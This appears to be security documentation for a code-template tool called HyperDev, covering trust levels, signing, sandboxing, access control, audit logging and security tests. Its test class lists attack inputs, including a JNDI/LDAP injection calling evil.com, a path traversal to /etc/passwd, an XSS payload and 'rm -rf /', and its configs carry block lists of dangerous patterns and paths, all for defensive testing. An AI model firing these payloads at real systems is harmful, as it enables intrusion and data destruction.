

# Security Model & Trust System

HyperDev's comprehensive security framework ensures safe template usage through trust management, validation, and secure code generation practices.

## Security Architecture Overview

### Multi-Layer Security Model

HyperDev implements defense-in-depth security across multiple layers.



### Trust Levels and Sources

Templates are classified into trust levels based on their source and validation status.

```javascript
// hyperdev.config.js - Security configuration
export default {
  security: {
    // Trust level requirements
    trust: {
      minimum_level: 'verified',
      enforce_signatures: true,
      allow_unsigned: false,
      
      // Trust sources configuration
      sources: {
        'npm:@company/templates': 'trusted',
        'github:company-org/*': 'verified',
        'local:./templates': 'trusted',
        'git+https://github.com/hyperdev-official/*': 'official'
      }
    },
    
    // Template validation rules
    validation: {
      required_metadata: ['version', 'author', 'license'],
      security_scan: {
        enabled: true,
        fail_on: ['high', 'critical'],
        scan_dependencies: true
      },
      
      // Code analysis rules
      static_analysis: {
        enabled: true,
        rules: [
          'no-eval',
          'no-file-system-access',
          'no-network-calls',
          'no-shell-execution'
        ]
      }
    }
  }
};
```

## Template Trust System

### Trust Levels Explained

<CardGroup cols={2}>
  <Card title="Official" icon="shield-check" color="green">
    Templates from HyperDev official sources
    - Rigorous security review
    - Continuous monitoring
    - Automatic updates
    - Full support guarantee
  </Card>

  <Card title="Trusted" icon="shield" color="blue">
    Verified templates from known sources
    - Identity verification required
    - Security scan passed
    - Community or enterprise validated
    - Regular security updates
  </Card>

  <Card title="Verified" icon="check-circle" color="yellow">
    Templates with verified signatures
    - Cryptographic signature valid
    - Basic security scans passed
    - Source identity confirmed
    - Manual approval may be required
  </Card>

  <Card title="Unverified" icon="exclamation-triangle" color="red">
    Templates without verification
    - Use with extreme caution
    - Manual security review required
    - Sandboxed execution only
    - Explicit user consent needed
  </Card>
</CardGroup>

### Template Signing and Verification

Implement cryptographic signing for template integrity and authenticity.

```bash
# Generate signing keys
hyper security generate-keys \
  --type=rsa-4096 \
  --output=./keys/ \
  --name="template-signing"

# Sign a template package
hyper security sign-template \
  --template=./my-template/ \
  --key=./keys/private.pem \
  --output=./signed-template.tar.gz

# Verify template signature
hyper security verify-template \
  --template=./signed-template.tar.gz \
  --key=./keys/public.pem \
  --strict
```

```javascript
// Programmatic signature verification
import { TemplateSecurityManager } from '@hyperdev/hyperdev';

class TemplateVerificationService {
  constructor(private security: TemplateSecurityManager) {}

  async verifyTemplate(templatePath: string) {
    const verification = await this.security.verifyTemplate(templatePath, {
      check_signature: true,
      verify_chain: true,
      validate_metadata: true,
      security_scan: true
    });

    if (!verification.trusted) {
      throw new SecurityError(
        `Template verification failed: ${verification.reasons.join(', ')}`
      );
    }

    return verification;
  }
}
```

## Security Scanning & Validation

### Static Security Analysis

Comprehensive security scanning for templates and generated code.

```yaml
# .hyperdev/security-rules.yml
security_rules:
  template_validation:
    # File system access restrictions
    file_system:
      allowed_paths: ['./src', './tests', './docs']
      forbidden_paths: ['/', '/etc', '/root', '~/.ssh']
      max_file_size: '10MB'
      
    # Code injection prevention
    code_injection:
      forbidden_patterns:
        - 'eval\('
        - 'Function\('
        - 'setTimeout\('
        - 'setInterval\('
        - '`.*\$\{.*\}.*`' # Template literals with expressions
        
    # Network access restrictions  
    network:
      forbidden_urls: ['file://', 'ftp://', 'data://']
      allowed_domains: ['cdn.jsdelivr.net', 'unpkg.com']
      require_https: true
      
  generated_code:
    # Security linting rules for output
    eslint_security: true
    semgrep_rules: ['security']
    
    # Dependency vulnerability scanning
    dependency_scan:
      enabled: true
      fail_on: ['high', 'critical']
      exclude_dev: false
      
    # Secret detection in generated code
    secret_detection:
      patterns: ['api_key', 'password', 'token', 'secret']
      entropy_threshold: 4.5
      exclude_test_files: true
```

### Runtime Security Enforcement

Implement runtime security controls during template execution.

```javascript
// Security execution context
export default {
  security: {
    execution: {
      // Sandboxed execution environment
      sandbox: {
        enabled: true,
        vm_timeout: 30000, // 30 seconds
        memory_limit: '256MB',
        
        // Restricted globals and APIs
        blocked_globals: [
          'process', 'global', 'require', 'import',
          'eval', 'Function', 'setTimeout', 'setInterval'
        ],
        
        // Allowed filesystem operations
        filesystem: {
          read_only: true,
          allowed_extensions: ['.ejs', '.json', '.yml', '.md'],
          base_path: './templates'
        }
      },
      
      // Resource limits
      limits: {
        max_files_generated: 1000,
        max_file_size: '50MB',
        max_execution_time: '5m',
        max_memory_usage: '1GB'
      }
    }
  }
};
```

## Enterprise Security Features

### Access Control and Permissions

Implement role-based access control for enterprise template management.

```yaml
# .hyperdev/rbac.yml
roles:
  template_admin:
    permissions:
      - template:create
      - template:update
      - template:delete
      - template:publish
      - security:manage
      - audit:view
      
  template_developer:
    permissions:
      - template:create
      - template:update
      - template:test
      - template:validate
      
  template_user:
    permissions:
      - template:use
      - template:list
      - template:info

# User assignments
users:
  "security@company.com":
    roles: [template_admin]
    
  "@platform-team":
    roles: [template_developer, template_admin]
    
  "@developers":
    roles: [template_user]

# Template-specific permissions
templates:
  "enterprise-api":
    restricted: true
    allowed_roles: [template_admin]
    approval_required: true
    
  "security-scanner":
    security_clearance: "high"
    audit_required: true
```

### Audit Logging and Compliance

Comprehensive audit logging for security and compliance requirements.

```javascript
// Security audit configuration
export default {
  audit: {
    // Audit logging
    logging: {
      enabled: true,
      level: 'info',
      destinations: ['file', 'syslog', 'webhook'],
      
      events: [
        'template_download',
        'template_execution', 
        'security_scan',
        'permission_denied',
        'trust_verification',
        'file_generation'
      ],
      
      // Sensitive data handling
      sanitization: {
        mask_secrets: true,
        mask_pii: true,
        hash_file_contents: true
      }
    },
    
    // Compliance frameworks
    compliance: {
      frameworks: ['SOC2', 'ISO27001', 'GDPR'],
      
      retention: {
        audit_logs: '7 years',
        security_scans: '3 years',
        access_logs: '1 year'
      },
      
      reporting: {
        enabled: true,
        schedule: 'monthly',
        recipients: ['security@company.com'],
        format: 'pdf'
      }
    }
  }
};
```

### Security Monitoring and Alerting

Real-time security monitoring and incident response.

```yaml
# Security monitoring configuration
monitoring:
  security_events:
    # Real-time threat detection
    threat_detection:
      enabled: true
      rules:
        - name: "Suspicious Template Usage"
          condition: "failed_trust_checks > 3 in 5m"
          severity: "high"
          action: "block_user"
          
        - name: "Mass Template Download"
          condition: "template_downloads > 50 in 1m"
          severity: "medium"
          action: "rate_limit"
          
        - name: "Security Scan Failures"
          condition: "security_scan_failures > 5 in 10m"
          severity: "critical"
          action: "alert_security_team"

  # Incident response
  incident_response:
    automatic_responses:
      block_user: 
        duration: "1h"
        escalation: "security_team"
        
      rate_limit:
        limit: "10/minute"
        duration: "15m"
        
    notifications:
      slack:
        webhook: "${SECURITY_SLACK_WEBHOOK}"
        channel: "#security-alerts"
        
      email:
        recipients: ["security@company.com"]
        template: "security_incident"
```

## Secure Development Practices

### Security-First Template Development

Best practices for creating secure templates.

<CodeGroup>
```yaml Secure Template Metadata
# template.yml
name: "Secure React Component"
version: "1.2.0"
author: "Platform Team <platform@company.com>"
license: "MIT"

# Security classification
security:
  classification: "internal"
  review_required: true
  scan_level: "strict"
  
# Trust and verification
trust:
  signature_required: true
  min_trust_level: "verified"
  approved_by: ["security@company.com"]
  
# Dependencies with security constraints
dependencies:
  allowed_packages: ["react", "typescript", "eslint"]
  security_scan: true
  vulnerability_check: true
```

```javascript Input Validation
// Secure parameter validation
variables:
  component_name:
    type: string
    required: true
    validation:
      pattern: /^[A-Za-z][A-Za-z0-9]*$/
      min_length: 2
      max_length: 50
      sanitize: true
      
  api_endpoint:
    type: string
    validation:
      pattern: /^https:\/\/[a-zA-Z0-9.-]+\/[a-zA-Z0-9\/]*$/
      sanitize: true
      security_scan: true
      
  user_input:
    type: string
    validation:
      sanitize: true
      escape_html: true
      no_script_tags: true
      max_length: 1000
```

```ejs Safe Template Generation
<%# Secure EJS template practices %>

<%# Always sanitize user inputs %>
<div class="component <%= sanitize(className) %>">
  <h1><%= escapeHtml(title) %></h1>
  
  <%# Use whitelist for dynamic imports %>
  <% if (allowedComponents.includes(componentType)) { %>
    import { <%= componentType %> } from '<%= validateModulePath(modulePath) %>';
  <% } %>
  
  <%# Validate file paths %>
  <% if (validatePath(filePath)) { %>
    // Safe to generate file at: <%= filePath %>
  <% } %>
  
  <%# Security headers for web components %>
  <meta http-equiv="Content-Security-Policy" 
        content="default-src 'self'; script-src 'self'">
</div>
```
</CodeGroup>

### Security Testing Framework

Comprehensive security testing for templates and generated code.

```typescript
// Security testing framework
import { SecurityTestSuite, TemplateSecurityAnalyzer } from '@hyperdev/security';

class TemplateSecurityTester {
  private analyzer: TemplateSecurityAnalyzer;

  constructor() {
    this.analyzer = new TemplateSecurityAnalyzer({
      strict_mode: true,
      scan_dependencies: true,
      check_vulnerabilities: true
    });
  }

  async runSecurityTests(templatePath: string) {
    const results = await Promise.all([
      this.testInputValidation(templatePath),
      this.testOutputSafety(templatePath),
      this.testDependencySecurity(templatePath),
      this.testRuntimeSecurity(templatePath),
      this.testAccessControls(templatePath)
    ]);

    return this.generateSecurityReport(results);
  }

  private async testInputValidation(templatePath: string) {
    const attacks = [
      '../../../etc/passwd',
      '<script>alert("xss")</script>',
      '${jndi:ldap://evil.com/evil}',
      'rm -rf /',
      'eval("malicious code")'
    ];

    const results = [];
    for (const attack of attacks) {
      try {
        await this.analyzer.generateWithInput(templatePath, { input: attack });
        results.push({ attack, blocked: false });
      } catch (error) {
        results.push({ attack, blocked: true, error: error.message });
      }
    }

    return { test: 'input_validation', results };
  }

  private async testOutputSafety(templatePath: string) {
    const generated = await this.analyzer.generate(templatePath, {
      userInput: '<script>evil()</script>',
      fileName: '../../../evil.js'
    });

    const issues = [];
    
    // Check for unescaped user input
    if (generated.content.includes('<script>evil()</script>')) {
      issues.push('Unescaped user input in output');
    }

    // Check for path traversal
    if (generated.files.some(f => f.path.includes('../'))) {
      issues.push('Path traversal vulnerability');
    }

    return { test: 'output_safety', issues };
  }
}
```

## Security Incident Response

### Automated Response System

Implement automated responses to security incidents.

```javascript
// Incident response automation
class SecurityIncidentHandler {
  async handleSecurityEvent(event: SecurityEvent) {
    const response = await this.assessThreat(event);
    
    switch (response.severity) {
      case 'critical':
        await this.blockSource(event.source);
        await this.alertSecurityTeam(event);
        await this.isolateAffectedSystems(event);
        break;
        
      case 'high':
        await this.rateLimit(event.source);
        await this.alertSecurityTeam(event);
        break;
        
      case 'medium':
        await this.logIncident(event);
        await this.scheduleReview(event);
        break;
    }

    return response;
  }

  private async blockSource(source: string) {
    // Add to security blacklist
    await this.security.addToBlacklist(source, {
      reason: 'security_incident',
      duration: '24h',
      auto_review: true
    });

    // Revoke active sessions
    await this.session.revokeAllSessions(source);
  }
}
```

This comprehensive security guide ensures HyperDev deployments maintain the highest security standards while enabling productive development workflows.